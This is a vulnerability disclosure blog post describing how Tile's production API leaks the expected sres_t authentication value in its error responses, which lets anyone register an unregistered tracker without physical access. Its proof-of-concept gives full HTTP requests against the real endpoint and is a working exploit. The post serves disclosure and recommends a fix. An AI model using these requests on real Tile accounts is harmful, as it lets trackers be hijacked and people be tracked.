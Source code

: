 ```yaml
---
title: 'Tile - Unauthorized Registration of a Genuine Tracker'
publishedAt: '2024-07-05'
description: "Tile, a company selling Bluetooth-based location trackers, has a vulnerability that allows an attacker to register any unregistered Tile tracker to their account. I uncovered this vulnerability during my master's thesis, in which I analyzed the security and privacy of the Tile ecosystem."
tags:
  - security
---
```


In my master's thesis, I analyzed the security and privacy of large portions of Tile's ecosystem.
During this, I discovered several security vulnerabilities affecting various components and features.
I reported these vulnerabilities to Tile, following [Google Project Zero's responsible disclosure policy](https://googleprojectzero.blogspot.com/2021/04/policy-and-disclosure-2021-edition.html).
However, as the 90-day deadline is over and Tile has failed to respond or patch the issues, I'm publishing my findings in hopes of raising awareness.
This post describes one vulnerability that allows an attacker to register any unregistered Tile tracker to their account.

# Vulnerability

It is possible to register an unregistered Tile tracker to an account without communicating with the tracker.

The endpoint `https://production.tile-api.com/api/v1/tiles/:tileUUID` excepts a valid auth triplet for the device.
An auth triplet consists of the three values `rand_t`, `rand_a`, and `sres_t`.
A valid auth triplet can only be obtained by communicating with a Tile tracker.
However, if the value `sres_t` is incorrect, the endpoint responds with the expected value.
This allows an attacker to bypass this check and add any Tile that is not yet associated with any account without actually communicating with the device.

For the attacker to exploit this vulnerability, they must have knowledge about the Tile UUID of a Tile tracker that is not registered to an account.

# Proof-of-Concept

Before registering a tracker to their account, the attacker needs a valid client UUID and use it to sign in to their account.
The attacker can create a valid client UUID by generating a random UUID and registering it with Tile by sending the following request:
```http
PUT https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7 HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]


registration_timestamp=1720090702959&app_id=android-tile-production&app_version=2.115.0.5050
```

Afterwards, they can sign in to their account with the following request:
```http
POST https://production.tile-api.com/api/v1/clients/c7394030-5b88-44a2-b1be-704b730b07c7/sessions HTTP/2.0
tile_client_uuid: c7394030-5b88-44a2-b1be-704b730b07c7
[...]: [...]

email=********&password=********
```

Next, they can register a Tile tracker with the following request:

```http
POST https://production.tile-api.com/api/v1/tiles/:tileUUID HTTP/2.0
cookie: session=[...]
tile_client_uuid: [...]
content-type: multipart/form-data; boundary=BOUNDARY
[...]: [...]


--BOUNDARY
Content-Disposition: form-data; name="tile_uuid"

:tileUUID
--BOUNDARY
Content-Disposition: form-data; name="rand_a"

AAAAAAAAAAAAAAAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="rand_t"

BBBBBBBBBBBBBBAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="sres_t"

CCCCCC==
--BOUNDARY--
```
_In the request, every instance of `:tileUUID` must be replaced with the Tile UUID of a tracker that is not registered to an account._

In the request above, the auth triplet is incorrect.
The server correctly validates the auth triplet and denies the request.
This should ensure that only a user with physical proximity to the tracker is actually able to register the tracker.
However, the response contains the expected `sres_t` value.

```
Unable to authenticate tile No match sres_t value: calcSresT=1VALID==, sresT=CCCCCC==, randA=AAAAAAAAAAAAAAAAAAAAAA==, randT=BBBBBBBBBBBBBBAAAAAAAA==, tile_uuid=:tileUUID, client_uuid=[...]
```

Using the expected value, it is possible to register the tracker to the attacker's account without ever communicating to the tracker and getting a valid auth triplet.

```http
POST https://production.tile-api.com/api/v1/tiles/:tileUUID HTTP/2.0
cookie: session=[...]
tile_client_uuid: [...]
content-type: multipart/form-data; boundary=BOUNDARY
[...]: [...]

--BOUNDARY
Content-Disposition: form-data; name="tile_uuid"

:tileUUID
--BOUNDARY
Content-Disposition: form-data; name="rand_a"

AAAAAAAAAAAAAAAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="rand_t"

BBBBBBBBBBBBBBAAAAAAAA==
--BOUNDARY
Content-Disposition: form-data; name="sres_t"

1VALID==
--BOUNDARY--
```

# Fix

It is recommended to not leak the `sres_t` value in the error response.

# Timeline

- 2024-03-13: Contacting Life 360's security contact through responsibledisclosure@life360.com
- 2024-05-21: Contacting Tile's support asking for a status update
